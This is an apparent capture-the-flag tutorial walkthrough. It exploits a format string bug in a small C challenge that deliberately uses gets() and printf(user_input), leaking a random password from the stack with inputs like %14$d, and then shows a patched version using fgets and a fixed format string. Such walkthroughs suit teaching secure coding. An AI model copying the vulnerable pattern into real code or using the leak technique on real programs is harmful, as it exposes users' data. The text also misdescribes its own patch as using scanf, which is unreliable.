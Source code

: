 Let's take a look at the code...
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    srand(time(NULL));
    char input1[20];
    char input2[5];
    int f;
    int c = 0;
    f = rand() % 100 + 1;
    
    printf("Enter your username\n");
    gets(input1);
    printf(input1);
    printf("Enter your password\n");
    gets(input2);
    c = atoi(input2);
    if(c == f)
    {
       	printf("Welcome to the Kremlin. Now get to work for the glory of the Motherland. Level Cleared\n");	
    }

   else
   {
	printf("Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now \n");
   }
}
```

So looking at the code, we see that we will need to set c equal to f, so it will print out the "Level Cleared" string. We see that f is a randomly generated string, that is ran against the modulus operator (modulus divides two things and returns the remainder) and adds 1. Due to the max size that an random int like this can generate (plus the +1) it should output a number in the ballpark of 1-100. The variable c is set to the integer equivalent of the second gets input, so we can directly input data into that variable. However it doesn't output the value of f, and a new value is generated every time we run. This is where the format string bug comes into play.

So we can see here the code has multiple vulnerabillities. It has two buffer overflow vulnerabillities discussed in the buf_ovf section. In addition to that it has a format string vulnerabillity. Let's take a look at this code.

```
 gets(input1);
 printf(input1);
```

As you can see here it is asking for input from the user, not checking it, and then printing it out without any formatting. Since this is is user defined data, we can input formatters into the printf function and change what it does. We can do things such as read values off from the stack, and actually rewrite parts of the program. Let's test it out by just trying to read values off the stack with the %d flag.

```
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%d
-145098490Enter your password
d
Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now 
```

Now looking here, it did appear as it printed off a value from the stack (since it is a %d, it should be an int which it is). Let's try printing off values off of the stack in a chronological order untill we see the value we want. Keep in mind that we can only print off so many values at a time before we get a segmentation fault (caused by a buffer overflow) and crashes the program.

```
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%1$d.%2$d.%3$d
-144865018.0.134514017Enter your password
nope
Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now 
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%4$d.%5$d.%6$d
32768.-143241216.-143248828Enter your password
not yet
Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now 
```

Let's keep on looking

```
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%7$d.%8$d.%9$d
-144785172.1.1680095013Enter your password
a bit further
Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now 
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%10$d.%11$d.%12$d
824520292.778314801.607269157Enter your password
should be soon
Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now 

```

It shouldn't be too much longer

```
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%13$d.%14$d.%15$d
-7864220.95.0Enter your password
95
Welcome to the Kremlin. Now get to work for the glory of the Motherland. Level Cleared
```

It appears that we found the offset. It is 14 bytes off of the offset. Let's test it a couple more times.

```
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%14$d
33Enter your password
33
Welcome to the Kremlin. Now get to work for the glory of the Motherland. Level Cleared
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%14$d
80Enter your password
80
Welcome to the Kremlin. Now get to work for the glory of the Motherland. Level Cleared
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./0
Enter your username
%14$d
50Enter your password
50
Welcome to the Kremlin. Now get to work for the glory of the Motherland. Level Cleared
root@tux:/Hac
```

I think it's safe to say, we pwned the binary. Now let's patch it.

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    srand(time(NULL));
    char input1[20];
    char input2[5];
    int f;
    int c = 0;
    f = rand() % 100 + 1;
    
    printf("Enter your username\n");
    fgets(input1, sizeof(input1), stdin);
    printf("%s", input1);
    printf("Enter your password\n");
    fgets(input2, sizeof(input2), stdin);
    c = atoi(input2);
    if(c == f)
    {
       	printf("Welcome to the Kremlin. Now get to work for the glory of the Motherland. Level Cleared\n");	
    }

   else
   {
	printf("Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now \n");
   }
}
```

As you can see, we patched the gets function by replacing it with scanf, and designating a limit on the input that cannot overflow the buffer. In addition to that, we formatted the printf to print the buffer as string so it shouldn't be vulnerable to a format string attack. Let's test it.

```
root@tux:/Hackery/cr@ck_th3_c0de/fmt_str/0# ./f0_secure 
Enter your username
%14$d
%14$d
Enter your passwordPatched
Relax, everyone mistypes their password. Just ask the KGB guys who are coming to see you now 
```

And as you can see, just like that we patched the binary.










